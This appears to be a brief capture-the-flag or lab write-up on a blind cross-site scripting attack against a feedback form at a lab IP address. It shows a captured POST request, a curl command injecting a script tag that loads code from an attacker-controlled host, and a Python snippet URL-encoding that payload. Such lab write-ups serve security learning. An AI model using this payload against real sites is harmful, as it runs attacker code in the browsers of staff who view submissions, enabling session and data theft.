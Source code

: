 # id: 10.10.242.129

# capture the post message

http://10.10.242.129:8080/submit_feedback
![](https://velog.velcdn.com/images/agnusdei1207/post/e0dc890b-369c-4bb8-9cad-4ceda9ab9ea1/image.png)

```
POST /submit_feedback HTTP/1.1
Host: 10.10.242.129:8080
Content-Length: 14
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.242.129:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.242.129:8080/submit_feedback
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

feedback=asdad

# Blind XSS check

curl -X POST http://10.10.242.129:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.242.129:8080" -H "Referer: http://10.10.242.129:8080/submit_feedback" --data "feedback=<script src="http://10.8.136.212:8000/"></script>"

# setting payload

```python
import urllib.parse

def url_encode(text: str) -> str:
    return urllib.parse.quote(text)

def url_decode(encoded_text: str) -> str:
    return urllib.parse.unquote(encoded_text)

original = "<script src="http://10.8.136.212:8000/"></script>"
encoded = url_encode(original)
decoded = url_decode(encoded)

print("original:", original)
print("encoded:", encoded)
print("decoded:", decoded)

```

# success the blind XSS

![](https://velog.velcdn.com/images/agnusdei1207/post/b5252105-4522-428d-a133-2239d228ac67/image.png)

